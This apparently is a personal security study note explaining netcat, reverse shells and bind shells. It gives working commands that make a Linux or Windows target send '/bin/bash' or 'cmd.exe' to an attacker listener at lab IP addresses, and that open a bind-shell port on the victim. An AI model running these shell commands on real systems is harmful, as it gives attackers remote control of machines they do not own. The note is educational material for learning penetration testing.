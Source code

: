 [Netcat](https://nc110.sourceforge.io/) is a [[Linux]] Command-line Interface (CLI) Based Swiss Army knife tool that is use to read/write data over TCP/UDP. It is a [Back-End](https://en.wikipedia.org/wiki/Front_end_and_back_end) tool which can smoothly be cross utilized by other programs.

The nc (or netcat) utility is used for just about anything under the sun involving TCP, UDP, or UNIX-domain sockets.  It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.


***Reverse Shell***

A reverse shell is initiating a shell session on a remote target (victim) machine to an attacker machine. The attacker is listening to a specific port from the target
![[Pasted image 20240915123945.png]]

***Bind Shell

A bind shell is a shell session initiated from the attacker machine to a remote target (victim) machine. The target machine opens up a specified port, from which the attacker is listening to.

![[Pasted image 20240915124356.png]]

Usage: This supposed you already have access to the target's machine by any [[Remote Code Execution]] mean.

***Reverse Shell Use case***
On the attacker's  machine
```
nc -lvp <port>
nc -lvp 4444
```
- l listening mode
- v verbose
- p port integer number to listen to

On the target [[Linux]] machine
```
nc <attacker ip> <port> -e /bin/bash
nc 10.0.2.15 4444 -e /bin/bash
```

On target [[Windows]] machine
```
nc.exe <attacker-ip> <port> -e cmd.exe
nc 10.0.2.15 4444 -e cmd.exe
```

***Bind Shell Use case***
On the victim's machine (target)
```
nc –lvp <bind-port-number> -e /bin/bash
nc -lvp 5555 -e /bin/bash
```

On the attacker's machine
```
nc <victim-IP> <Binded-port>
nc 10.0.2.6 5555
```



More:
https://www.infosecademy.com/netcat-reverse-shells/


